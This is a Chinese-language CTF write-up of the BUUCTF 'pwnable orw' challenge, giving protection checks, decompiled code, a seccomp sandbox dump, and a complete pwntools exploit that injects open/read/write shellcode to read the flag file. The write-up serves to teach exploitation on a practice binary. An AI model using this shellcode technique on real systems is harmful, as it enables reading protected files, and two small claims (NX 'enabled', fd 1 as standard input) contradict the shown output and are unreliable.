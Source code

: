 ```yaml
---
author: 
  name: Zephyr
title: pwnable orw
date: 2022-3-30 16:50:25
permalink: /pages/2e1547494524d1a0
tags: 
  - buuctf
  - pwn
  - StackOverflow
  - sandbox
---
```


# pwnable orw

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/pwnable_orw/orw'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

orw_seccomp函数及函数表如下

![pwnable_orw_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/pwnable_orw_1.png)

沙箱规则如下

```shell
seccomp-tools dump ./orw 
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x07 0x00 0x000000ad  if (A == rt_sigreturn) goto 0011
 0004: 0x15 0x06 0x00 0x00000077  if (A == sigreturn) goto 0011
 0005: 0x15 0x05 0x00 0x000000fc  if (A == exit_group) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == exit) goto 0011
 0007: 0x15 0x03 0x00 0x00000005  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011
 0009: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0011
 0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

## 思路分析

1. 目前信息：
   
   - 沙箱规则只允许sigreturn、exit、open、read、write这几个系统调用
   
   - shellcode在bss段且非常长
   
   - read读入输入的数据将其写入shellcode处，然后直接跳转到该处
   - Canary found
   - NX enabled
   - Has RWX segments
   
2. 思路：
   - 构造shellcode，使用open打开flag文件，read读取其中内容，write再打印出来

## exp

```python
from pwn import *
from LibcSearcher import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/pwnable_orw/orw'
# io = remote('node4.buuoj.cn', 25746)
io = process(pwnfile)
elf = ELF(pwnfile)
shellcode = asm(shellcraft.open('./flag'))
# 打开flag文件
shellcode += asm(shellcraft.read('eax', 'esp', 42))
# eax为sys_open函数结束时返回的fd文件描述符
shellcode += asm(shellcraft.write(1, 'esp', 42))
# 1为标准输入
shellcode += asm(shellcraft.exit(0))
io.sendafter('Give my your shellcode:', shellcode)
print(io.recv())
```